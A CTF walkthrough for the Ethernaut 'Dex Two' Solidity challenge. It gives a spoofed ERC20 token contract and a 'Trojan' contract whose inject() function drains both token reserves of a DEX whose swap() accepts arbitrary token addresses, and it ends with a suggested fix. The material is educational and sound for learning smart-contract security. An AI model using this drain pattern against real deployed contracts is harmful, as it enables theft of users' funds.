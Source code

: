 # Ethernaut Walkthrough: Dex Two
## Welcome to KweenBirb's 24th installment of Ethernaut walkthroughs! 

Ethernaut is a set of gamified Solidity challenges in the style of a CTF, where each level features a hackable smart contract that will inform you of various known security vulnerabilities on EVM blockchains.

This repo will walk you through a solution to DexTwo.sol, the 24th challenge in the series. You can find the challenge itself and fully fleshed out solution in the .txt file in this directory and the .sol file in the src directory. Let's begin!

OpenZeppelin instructs us that, much like the previous level named Dex, we 'need to drain all balances of token1 and token2 from the DexTwo contract to succeed in this level.' This time, however, the contract is slightly modified in such a way that our exploit will require a different approach.

## The swap() function

Unlike the previous Ethernaut level, 'Dex', Dex2's swap() function no longer has a require() line that previously restricted input parameters to the token1 and token2 addresses from storage! This gives us an additional attack vector to the previous economic liquidity attack we executed on dex1: a spoofed contract code injection opportunity.

To spoof the token1 ERC20 that would otherwise be entered as the 'from' parameter, let's code a custom malicious ERC20 token that will provide unexpected values to Dex2 and drain both sides of the liquidity pool. I just slightly modified Ethernaut's implementation of the SwappableToken provided in the level:

```
contract SpoofToken is ERC20 {

    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol) ERC20(name,symbol) {
        _dex = dexInstance;
        _mint(msg.sender, 300);
        _mint(_dex, 100);
    }

    function approve(address owner, address spender, uint256 amount) public {
        super._approve(owner, spender, amount);
    }
}
```

The minted balances should be enough to drain the Dex's liquidity reserves.

## The Trojan for the SpoofToken

Once we've created the SpoofToken, we'll need a contract that interfaces between the dex contract and the SpoofToken, so we start by configuring the Trojan contract's environment by storing smart contracts of interest to us in this hack:

```
contract Trojan {

    address public token1;
    address public token2;
    address private hacker;
    SpoofToken spoofToken;
    DexTwo dexTwo;

    constructor(address $your_ethernaut_instance_here) {
        dexTwo = DexTwo($your_ethernaut_instance_here);
        token1 = dexTwo.token1();
        token2 = dexTwo.token2();
        spoofToken = new SpoofToken($your_ethernaut_instance_here, 'Spoof', 'SPF');
        hacker = msg.sender;
    }
}
```

## The exploit

With all the setup complete, we need only perform the swaps while providing our unexpected SpoofToken values to trick the Ethernaut dex into emptying its reserves:

```
function inject() public {
    uint amount = 100;
    // set allowance for dex in from to msg.sender
    spoofToken.approve(address(this), address(dexTwo), amount * 3);

    // call swap using our spooftoken to drain all token1s out of dex2's liquidity pool 
    dexTwo.swap(address(spoofToken), token1, amount);
    // call swap again using spooftoken to drain all token2s out of dex2's liquidity pool
    // keep in mind that balanceOf(spoofToken, dexTwo) is now 200!!! Since 100 were minted and then 100 exchanged for token1
    dexTwo.swap(address(spoofToken), token2, amount * 2);
}
```

This works because the dex contract's swap function is intended only to manage the balances of two token reserves: token1 and token2 in storage. But since the swap function accepts any ERC20 address we can pass in worthless token balances that we deployed and the dex will treat it as a valid token1-token2 swap.

## Suggestions for improvement

This is sort of a silly one, since the require() line that would have prevented this exploit was present in the previous level. But of course many different approaches could have been taken to safeguard this contract, for example rather than invoking IERC20() calls on user-provided parameters; those calls could have been anchored to the storage variables: address token1, address token2. Since the Dex contract is produced by a factory with the sole purpose of managing balances for those two specific tokens, that would keep away hackers and even save some gas on reverting with a require() string.

Anyway, congratulations on breaking yet another Dex!

○•○ h00t h00t ○•○

